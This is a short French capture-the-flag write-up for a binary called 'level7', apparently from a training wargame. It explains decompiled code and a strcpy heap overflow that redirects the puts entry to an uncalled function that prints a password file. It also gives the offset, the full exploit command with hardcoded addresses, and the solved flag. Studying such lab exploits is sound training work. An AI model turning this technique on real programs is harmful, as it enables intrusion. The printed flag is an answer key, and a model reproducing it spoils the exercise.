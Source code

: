 # LEVEL7

Ecrire l'adresse de m à la place de la fonction p

Il y a une variable uVar2 qui fait un fopen sur le fichier contenant le flag, suivi d'un fgets, qui lit le contenu du fichier contenant le flag et le stock dans la variable global c. 

```
fopen("/home/user/level8/.pass", 0x80486e9);`
fgets(c, 0x44, uVar2);
puts(0x8048703);
```

On peut voir une fonction `m` qui n'est pas appelé, qui affiche le contenue de la variable global c.

```
void m(void)
{
    undefined4 uVar1;
    
    uVar1 = time(0);
    printf("%s - %d\n", c, uVar1);
    return;
}
```

On va donc remplacer l'appel de `puts`, par celui de la fonction `m` pour afficher le flag.
Nous allons buffer overflow le premier `strcpy` pour modifier le premier argument du deuxieme strcpy.

```
strcpy(adress_puts, adress_m);
```


Utiliser ce site pour trouver l'endroit ou on peut overwritten register : https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

Avec la commande : **dmesg**

```
[  874.125883] level7[4044]: segfault at 37614136 ip b7eb8f52 sp bffff65c error 6 in libc-2.15.so[b7e2c000+1a3000]

Find the offset
---------------

Register value: 37614136
Offset: 20
``` 

```
./level7 $(python -c "print 'A' * 20 + '\x28\x99\x04\x08'") $(python -c 'print "\xf4\x84\x04\x08"')

flag: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

